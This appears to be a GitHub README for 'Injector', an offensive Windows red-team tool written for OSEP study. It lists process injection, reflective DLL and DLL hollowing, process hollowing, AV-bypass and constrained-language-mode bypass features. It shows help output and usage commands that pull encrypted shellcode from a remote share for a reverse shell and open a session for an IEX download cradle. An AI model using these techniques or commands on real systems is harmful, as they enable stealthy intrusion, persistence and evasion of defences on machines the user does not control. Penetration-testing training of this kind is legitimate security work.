 # Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks
- Now comes with support for DLL Hollowing. DLL hollowing is implemented via the dll_hollow.dll! So in case you end up using this mode, make sure the dll and the exe are in same place.

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass
        -m 6     DLL hollowing

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

# Why make it?

Main aim is to help me in OSEP :P

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

# Acknowledgements

[Ired Team](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
